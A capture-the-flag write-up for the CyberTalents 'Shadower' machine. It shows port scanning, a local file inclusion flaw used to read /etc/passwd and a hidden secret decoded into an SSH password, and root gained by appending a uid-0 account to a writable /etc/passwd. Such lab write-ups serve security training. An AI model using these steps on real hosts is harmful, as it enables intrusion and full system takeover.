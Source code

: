 ```yaml
---
title: Cybertalents Shadower Machine Writeup
author: Muhammad Adel
date: 2021-06-26 18:45:00 +0200
categories: [Cybertalents Writeups]
tags: [cybertalents, machines, box, ctf]
---
```


## **Description**


Get The highest privilege on the machine and find the flag!

Target IP: **35.156.4.248**

[Challenge-Link](https://cybertalents.com/challenges/machines/shadower)

## **User**

### **Nmap**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:24:fc:36:53:c8:0b:f7:8c:31:7a:28:dd:c9:34:02 (RSA)
|   256 6c:6e:61:94:2f:fd:f6:d2:dc:25:e3:4f:32:ac:33:15 (ECDSA)
|_  256 ce:d7:0b:19:cb:32:3b:d4:f1:bf:f7:74:8a:52:d5:bc (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
‌
### **HTTP**

the machine is running a webserver on port 80. it doesn't have sth interesting but we can use *dirsearch* to see hidden directory.

```bash
root@kali:~/dirsearch# python3 dirsearch.py -u 35.156.4.248 -e php

  _|. _ _  _  _  _ _|_    v0.3.9
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 20 | Wordlist size: 6707
Error Log: /home/itsfading/dirsearch/logs/errors-21-06-12_16-24-32.log
Target: 35.156.4.248
Output File: /home/itsfading/dirsearch/reports/35.156.4.248/_21-06-12_16-24-32.txt
[16:24:32] Starting:
[16:24:52] 200 -  827B  - /index.php
[16:24:52] 200 -   11KB - /index.html
[16:24:52] 200 -  827B  - /index.php/login/
```

Navigate to index.php we will find a hint in the page source that says LFI. So we try a simple LFI payload and we found the page is vulnerable. we can extract the */etc/passwd*.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/bash
zerotier-one:x:999:999::/var/lib/zerotier-one:/bin/sh
```
‌
We have now some interesting usernames but still we need to find a password for them. After more enumeration we will find a hint at the contact page in the page source **"<!-my0wns3cr3t.sec -->"**

‌Because we have a LFI Vulnerability we can navigate to it by adding this word in the search:

[http://35.156.4.248/index.php?view=my0wns3cr3t.sec](http://35.156.4.248/index.php?view=my0wns3cr3t.sec)

This will give us a base64 encoded which will be a secret string. now we can decoded it Using a website like **CyberChef** but you will notice that you need to decode it 20 time to get decode value. you can write script for that or to decode it manually.

Finally we will get a password ***"B100dyPa$$w0rd"***


### **SSH**

We have now a password so we can try the usernames that we have to get access to the Machine. we found that John is a valid user


```bash
root@kali:~/CyberTalents/Shadower# ssh john@35.156.4.248
john@ip-172-31-30-167:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

## **Root**

### **Enumeration**

We can run any automating script to search a privilege escalation vector. I will use **linPEAS**.

It leads me to know that I have a permission to write to /etc/passwd.

## **Privilege Escalation**

Simply we will create our own user with root privileges and then we will switch to it.

```bash
john@ip-172-31-30-167:~$ openssl passwd adel
fItrMJ47Bbm3E
john@ip-172-31-30-167:~$ echo 'adel:fItrMJ47Bbm3E:0:0:adel:/home/adel:/bin/bash' >> /etc/pas
john@ip-172-31-30-167:~$ su adel
Password:

root@ip-172-31-30-167:/home/john# ls
linessh.sh  lse.sh
root@ip-172-31-30-167:/home/john# cat /root/root.txt
6199b2f763edfxxxxxxxb275375c100
```
‌
You can see this resource for more information about this privilege Escalation Technique.

[https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)
